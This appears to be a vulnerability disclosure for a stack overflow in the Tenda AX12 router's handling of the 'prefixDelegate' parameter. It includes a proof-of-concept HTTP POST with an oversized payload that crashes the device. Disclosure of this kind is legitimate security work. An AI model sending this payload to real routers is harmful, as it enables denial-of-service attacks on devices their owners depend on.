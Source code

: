   # Tenda router sub_421764 function stack overflow vulnerability

> vendor:Tenda
>
> product:AX12
>
> version:v1.0 v22.03.01.16
>
> type:Stack Overflow

## Vulnerability Description

Tenda AX12 v1.0 v22.03.01.16 were discovered to contain a stack overflow via the prefixDelegate parameter in the sub_421764 function.

## Vulnerability Details

In the function, V6 obtains the variable named "prefixDelegate" in the web request and passes it directly to the strcpy function without processing, which may cause a stack buffer overflow based on V21. Therefore, by requesting this web page, an attacker can perform a denial of service attack by changing the parameter length in the post request for this page.

![image](https://github.com/cvdyfbwa/IoT-Tenda-Router/assets/150313831/aae59404-3d57-400c-aee7-77ec259163cf)
![image](https://github.com/cvdyfbwa/IoT-Tenda-Router/assets/150313831/1e8ecd69-7d86-4373-b0cd-8c27787ceadb)


## POC

    POST /goform/setIPv6Status HTTP/1.1
    Host: 192.168.244.130
    Content-Length: 103
    Accept: */*
    X-Requested-With: XMLHttpRequest
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    Origin: http://192.168.244.130
    Referer: http://192.168.244.130/index.html
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: password=cjq1qw
    Connection: close

    prefixDelegate=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
